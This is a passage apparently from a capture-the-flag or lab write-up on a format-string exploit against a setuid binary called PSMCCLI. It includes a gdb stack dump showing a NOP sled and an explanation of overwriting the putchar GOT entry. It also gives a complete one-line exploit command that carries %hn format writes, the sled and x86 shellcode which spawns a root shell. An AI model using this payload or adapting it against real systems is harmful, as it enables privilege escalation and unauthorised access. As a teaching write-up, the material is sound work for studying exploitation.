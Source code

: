 ```gdb  
0xbffff9d0: 0x0000000000000000 0x08048530bffff9f8  
0xbffff9e0: 0xbffffaa4bffffb97 0x080484f8bffffab0  
0xbffff9f0: 0x00000000bffffa10 0xb7e2f28600000000  
0xbffffa00: 0xb7fca00000000002 0xb7e2f28600000000  
0xbffffa10: 0xbffffaa400000002 0x00000000bffffab0  
0xbffffa20: 0x0000000000000000 0xb7fffc0cb7fca000  
0xbffffa30: 0x00000000b7fff000 0xb7fca00000000002  
0xbffffa40: 0x670b46a800000000 0x000000005d1beab8  
0xbffffa50: 0x0000000000000000 0x080483a000000002  
0xbffffa60: 0xb7ff071000000000 0xb7fff000b7e2f199  
0xbffffa70: 0x080483a000000002 0x080483c100000000  
0xbffffa80: 0x00000002080484e4 0x08048550bffffaa4  
0xbffffa90: 0xb7feb070080485b0 0xb7fff920bffffa9c  
0xbffffaa0: 0xbffffb8000000002 0x00000000bffffb97  
0xbffffab0: 0xbfffffb4bfffffa8 0xbfffffdcbfffffc0  
0xbffffac0: 0x0000002000000000 0x00000021b7fd9cd0  
0xbffffad0: 0x00000010b7fd9000 0x000000060fabfbff  
0xbffffae0: 0x0000001100001000 0x0000000300000064  
0xbffffaf0: 0x0000000408048034 0x0000000500000020  
0xbffffb00: 0x0000000700000009 0x00000008b7fdb000  
0xbffffb10: 0x0000000900000000 0x0000000b080483a0  
0xbffffb20: 0x0000000c000003ea 0x0000000d000003ea  
0xbffffb30: 0x0000000e000003ea 0x00000017000003ea  
0xbffffb40: 0x0000001900000000 0x0000001fbffffb6b  
0xbffffb50: 0x0000000fbfffffe5 0x00000000bffffb7b  
0xbffffb60: 0x0000000000000000 0xb3e7f8a81b000000  
0xbffffb70: 0xa2c230e852ebcc7f 0x00363836696a2918  
0xbffffb80: 0x636f6c2f7273752f 0x502f6e69622f6c61  
0xbffffb90: 0x4100494c43434d53 0x2542424242414141  
0xbffffba0: 0x7830303030303030 0x2578302432333125  
0xbffffbb0: 0x7830303030303030 0x9078302433333125  
0xbffffbc0: 0x9090909090909090 0x9090909090909090  
0xbffffbd0: 0x9090909090909090 0x9090909090909090  
0xbffffbe0: 0x9090909090909090 0x9090909090909090  
0xbffffbf0: 0x9090909090909090 0x9090909090909090  
0xbffffc00: 0x9090909090909090 0x9090909090909090  
0xbffffc10: 0x9090909090909090 0x9090909090909090  
0xbffffc20: 0x9090909090909090 0x9090909090909090  
0xbffffc30: 0x9090909090909090 0x9090909090909090  
0xbffffc40: 0x9090909090909090 0x9090909090909090  
0xbffffc50: 0x9090909090909090 0x9090909090909090  
0xbffffc60: 0x9090909090909090 0x9090909090909090  
0xbffffc70: 0x9090909090909090 0x9090909090909090  
0xbffffc80: 0x9090909090909090 0x9090909090909090  
0xbffffc90: 0x9090909090909090 0x9090909090909090  
---Type <return> to continue, or q <return> to quit---  
0xbffffca0: 0x9090909090909090 0x9090909090909090  
0xbffffcb0: 0x9090909090909090 0x9090909090909090  
0xbffffcc0: 0x9090909090909090 0x9090909090909090  
0xbffffcd0: 0x9090909090909090 0x9090909090909090  
```  
We see that the address of the nopsled within the stack, so honestly, any address within it works fine but I ended up choosing `0xbffffc78`.  We write this in two instances to the address `0x0804a01c` which is our `putchar` GOT address.  Once `putchar` is called after `printf`, an address to our shellcode will be in the GOT and executed.
```bash  
./invoke /usr/local/bin/PSMCCLI $(python -c 'import sys; sys.stdout.write("\x1e\xa0\x04\x08\x1c\xa0\x04\x08%0049143x%119$hn%0015481x%120$hn"+"\x90"*961+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')  
```  
I've snipped out the printed junk data, but suffice to say we receive a shell!
```bash  
$ id  
```